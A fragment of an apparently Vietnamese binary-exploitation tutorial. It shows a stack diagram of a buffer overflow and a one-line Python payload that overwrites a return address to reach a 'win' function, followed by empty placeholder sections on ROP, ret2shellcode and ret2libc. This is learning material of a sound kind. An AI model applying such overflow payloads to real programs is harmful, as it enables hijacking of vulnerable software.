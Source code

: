 ```
                                           After giving 0x20 A's as input 

  ┌──────────────┐               ┌──────────────┐
  │              │               │              │
  ├──────────────┤               ├──────────────┤
  │  0x0x80484f2 │               │    AAAA      │
  ├──────────────┤               ├──────────────┤
  │ previous_ebp │ <─ ebp        │    AAAA      │ <─ ebp
  ├──────────────┤               ├──────────────┤         ─
  │              │               │    AAAA      │          │
        ...                           ....                 │  0x18 x "A"
  │              │               │    AAAA      │          │
  ├──────────────┤               ├──────────────┤          │
  │              │<─  eax        │    AAAA      │<─  eax  ─
  │              │  │            │              │  │
  ├──────────────┤  │            ├──────────────┤  │
  │  addr_arr    │──             │  addr_arr    │──
  ├──────────────┤               ├──────────────┤
  │  0x804858b   │ <─ esp        │  0x804858b   │ <─ esp
  └──────────────┘               └──────────────┘
```

Đếm khúc này thì có vẻ ta hiểu được là cần leed ra địa chỉ của hàm win để control hướng chương trình thực thi là được

Payload : python -c 'print "A" \* 0x1c + "\x8b\x84\x04\x08"' > filename

### ROP

Mình sẽ viết sau

### Ret2win

Mình sẽ viết sau

### ret2shellcode

**Creator 1**

* [https://github.com/usernamecreator1](https://github.com/usernamecreator1)

### ret2libc

Some Text
